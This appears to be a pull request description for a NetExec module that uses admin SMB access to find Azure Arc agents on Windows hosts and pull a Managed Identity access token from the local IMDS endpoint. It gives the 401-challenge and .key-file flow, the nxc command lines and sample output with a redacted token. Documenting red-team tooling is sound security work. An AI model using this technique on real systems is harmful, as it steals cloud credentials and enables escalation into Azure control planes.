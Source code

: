 New module, **`azurearc`**, which detects whether a Windows host is Azure Arc–enabled and, if so, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented 401 challenge → `.key` file → second request flow.

## Behavior:
Presence check via SMB listing of:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval executed locally on target with PowerShell:
1. GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read .key contents (local admin privileges required)
2. second GET with Authorization: Basic <key>.
Write JSON to outfile, fetch via SMB, delete outfile.


- **Protocols:** SMB (requires administrative privileges)
- **Capabilities:**
  - **CHECK mode:** enumerate presence of the Azure Connected Machine Agent (Arc) by listing well-known install paths
  - **Default mode:** perform the IMDS challenge/response locally on the target and return the JSON containing the `access_token`
- **Use case:** Quickly map Arc deployment across estate and retrieve a cloud-scoped token for Azure control-plane actions during engagements.

---

## Screenshot
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/b25305f9-1946-4e6c-8c9f-028e0bded0ff" />


**Presence check only (Arc installed)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed

**Presence check only (Arc not installed)**
nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found

**Dump token (success)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
"access_token":"eyJhbGciOi...<redacted>...",
"expires_on":"1730812345",
"token_type":"Bearer",
"resource":"https://management.azure.com
"
}

# Setup guide for the review
git clone https://github.com/Pennyw0rth/NetExec.git
* Add the module file at:
nxc/modules/azurearc.py


# Run from source against a lab target
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc


### For more technical info
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/
